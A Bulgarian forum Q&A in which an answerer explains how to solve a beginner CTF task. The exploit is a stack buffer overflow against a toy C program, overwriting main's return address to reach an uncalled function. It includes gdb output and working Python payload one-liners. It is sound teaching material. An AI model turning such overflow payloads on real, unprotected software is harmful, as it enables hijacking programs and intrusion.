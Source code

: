 # Въпрос

Здравейте, хорааа :) Отскоро се заиграх с разни аматьорски CTF задачки, но ударих на камък с една и не знам от къде да я подхвана. Идеята е, че имаме проста C програмка  и искаме да изпълним функция, която никъде не се извиква. Програмата е със следната структура: 
 
```C
struct data {
    char a[10];
    int b;
};

void never_called_function() {
    printf("Success");
}

int main() {
    struct data d;
    scanf("%s", d.a);
    return 0;
}
```

Ясно, че за да видим заветния "Success",  трябва с gdb да намерим адреса на `never_called_function()` и да въведем такава стойност за d.a, че да overflow-нем в стека до този адрес. Притеснява ме и начина на компилиране: 

    gcc -o xakbg_bof -O0 -ggdb -fno-stack-protector xakbg_bof.c 

Някакви идеи как да подходя? 


# Отговор

Първо инсталирай си сносен екстенд на gdb - може да пробваш peda или pwndb.

Относно компилирането:
* `-О0` е за да махне оптимизацията. Компилатора може да премахва dead code ако реши за да пести място, а `never_called_function()` си е мъртъв код
* `-fno-stack-protector` ти компилира програмата без стек канарче, което е допълнителна защита, която проверява за buffer overrun. Махната е за да не усложни допълнително задачата
* `-ggdb` ти компилира в дебъг режим (лично го намирам за излишно)

Ако това го пробваш на модерно Ubuntu считам следните неща за дадени:
* ASLR - рандомизация на адреси на стек и библиотеки
* NX - no execution bit
* системата е 64bit

Преди да почнеш да трошиш е хубвао да си пуснеш core dump files:

    $> ulimit -c unlimited

След това започваш да тестваш. Ако приемем, че системата ти е 64 битова, тогава адресите ти са 8 байта, следователно имаме:
* минимум 16 байта променлива
* frame pointer - 8 байта
* `main()` return address - 8 байта (тук пишеш адреса на never_called_function)
* `never_called_function()` return address - 8 байта (пожелателно е това да сочи към `exit()` за да не крашнем програмата)

Та първия ми опит е нещо то сорта на:

    $> python -c "import struct;print 'a'*16 + 'b'*8 + 'c'*8 + 'd'*8" | ./xakbg_bof

Естествено това крашва с core dump файл и гледаме какво се случва с:

    $> gdb ./xakbg_bof ./core

"core" е името на core dump файла, който краша е направил. Под gdb намираме адреса на `never_called_function()`:

    pwndbg> print never_called_function 
    $1 = {<text variable, no debug info>} 0x400596 <never_called_function>

Евентуално търсим адреса на `exit()`, но ако имаш рандомизация на shared libs това няма да сработи. В този конкретен случай не можах да намеря добър изход и записах адреса на `hlt` инструкцията от `_start` стъба (заради който ще seg fault-нем):

    pwndbg> disassemble _start
    Dump of assembler code for function _start:
       0x00000000004004a0 <+0>: xor    ebp,ebp
       0x00000000004004a2 <+2>: mov    r9,rdx
       0x00000000004004a5 <+5>: pop    rsi
       0x00000000004004a6 <+6>: mov    rdx,rsp
       0x00000000004004a9 <+9>: and    rsp,0xfffffffffffffff0
       0x00000000004004ad <+13>:    push   rax
       0x00000000004004ae <+14>:    push   rsp
       0x00000000004004af <+15>:    mov    r8,0x400650
       0x00000000004004b6 <+22>:    mov    rcx,0x4005e0
       0x00000000004004bd <+29>:    mov    rdi,0x4005ac
       0x00000000004004c4 <+36>:    call   0x400470 <__libc_start_main@plt>
       0x00000000004004c9 <+41>:    hlt    
    End of assembler dump.

В крайна сметка payload-а става:

    $> python -c "import struct;print 'a'*16 + 'b'*8 + struct.pack('<Q', 0x400596) + struct.pack('<Q', 0x4004c9)" | ./xakbg_bof

Проследявайки го под gdb стъпка по стъпка виждам, че never_called_function() се изпълнява, но програмата все пак прави segmentation fault без да принтира Success. Това предполагам е заради буфериране на output буфера, който при краш не се flush-ва. Ако променя програмата на:

```C
#include <stdio.h>
#include <stdlib.h>

struct data {
    char a[10];
    int b;
};

void never_called_function() {
    printf("Success");
    fflush( stdout );
}

int main() {
    struct data d;
    scanf("%s", d.a);
    return 0;
}
```

и променя съответните адреси получавам:

    $> python -c "import struct;print 'a'*16 + 'b'*8 + struct.pack('<Q', 0x400616) + struct.pack('<Q', 0x400549)" | ./xakbg_bof 
    SuccessSegmentation fault (core dumped)

**Забележка**: В този конретен случай може да си позволим да използваме 0x00 байтове наляво и надясно, защото целия stdin се взима от `scanf()` без да му мисли много. В други случай ( мисля, че gets() е такъв пример) стринговете ще се прекъсват на първия NULL байт и там ще трябва да сме по креативни. 

    